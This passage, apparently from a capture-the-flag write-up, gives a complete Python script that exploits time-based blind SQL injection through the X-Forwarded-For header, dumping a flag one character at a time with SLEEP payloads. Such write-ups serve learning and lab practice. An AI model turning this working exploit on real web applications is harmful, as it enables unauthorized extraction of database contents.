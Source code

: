 (Upper or lowercase T, doesn't matter)

- Now that we know all this - we need to form a script to exploit this (or do it manually):

![image12](../resources/8b572b13fa1f4c1fb6533857d090191d.png)

**<u>Script:</u>**

```python
import requests
import sys
import time
import string

def send_payload(ip, payload):
    start = time.time()
    try:
        header = {'X-Forwarded-For': "1" + payload}
        r = requests.get(f"http://{ip}/", headers=header)
        end = time.time()
        if end - start >= 1:
            return True
        else:
            return False
    except Exception as e:
        print("Error:", e)
        return False

def brute_flag(ip):
    sys.stdout.write("Dumping: ")
    sys.stdout.flush()
    flag = ""
    characters = string.ascii_uppercase + string.digits + "{}:"
    for i in range(1, 44):  # Assumes the flag length is 43 characters
        for j in characters:
            payload = f"' AND (SELECT sleep(1) FROM flag WHERE SUBSTR(flag,{i},1) = '{j}') AND '1'='1"
            if send_payload(ip, payload):
                flag += j
                sys.stdout.write(j)
                sys.stdout.flush()
                break
    sys.stdout.write("\n")
    sys.stdout.flush()
    return flag

def main():
    if len(sys.argv) != 2:
        print("Usage: python %s <ip>" % sys.argv[0])
        sys.exit(1)
    ip = sys.argv[1]
    flag = brute_flag(ip)
    print("Flag:", flag)

if __name__ == "__main__":
    main()

```
